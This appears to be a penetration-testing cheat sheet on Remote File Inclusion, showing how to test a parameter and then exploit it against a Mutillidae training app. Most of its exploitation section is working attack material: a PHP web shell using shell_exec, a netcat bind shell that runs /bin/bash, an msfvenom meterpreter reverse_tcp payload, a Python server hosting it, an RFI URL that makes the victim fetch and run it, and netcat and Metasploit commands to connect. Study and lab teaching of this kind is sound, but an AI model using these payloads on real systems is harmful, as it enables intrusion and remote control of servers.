






Remote File Inclusion
How to test
To immediately spot a vulnerable parameter, you can try to inject
“http://www.google.com”
Test if parameter is vulnerable• Website on the
internet:
vuln.php?page=http://www.google.com If it is
vulnerable, the HTML code of google.com should be injected in the vulnerable web page.
• Website on the
internal network
We need to test a page of the same website
/index.php?pag=http://foocompany.com 
How to Exploit
Build RFI attack payloads:
1.
Attacker machine: Write PHP
script (we call it
id.php) that can runs a local shell command on the victim and displays the
output
Put this script on a Server controlled by the attacker, if we are in the same network then we can use
the same attacker machine (example kali linux)
PHP script executes the shell command of out choice, also a
backdoor with netcat
attacker@Server:/# nano /www/id.php
◇ webshell
<?php
echo shell_exec('<command>');
?>
◇ bind shell
<?php
echo shell_exec('ncat -l -p 4242 -e /bin/bash');
?>
◇ bind shell single line
<?php echo shell_exec('ncat -l -p 4242 -e /bin/bash'); ?>
◇ msfvenom to generate php shell
cd /www
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attackerInterfaceIP> LPORT=<PORT> -f raw > shell.php
2. Start Web Server on the
Interface of the attacker
python3 -m http.server --bind 172.16.5.20
4.
Web Application: Load and run via an RFI exploit
https://www.example.org/mutillidae/index.php?page=http://[attackerIpServer]/shell.php
 The page will not complete loading because it is now
running a backdoor for us to connect into.
5. Connect to Server
◇ Connect to the bind shell
Attacker machine: Connect to the backdoor listener of the vulnerable Web
root@kali:/# nc www.example.org 4242
 ◇ Start a listener
msf> use /exploit/multi/handler
msf> set payload php/meterpreter/reverse_tcp
msf> set LHOST 172.16.5.20
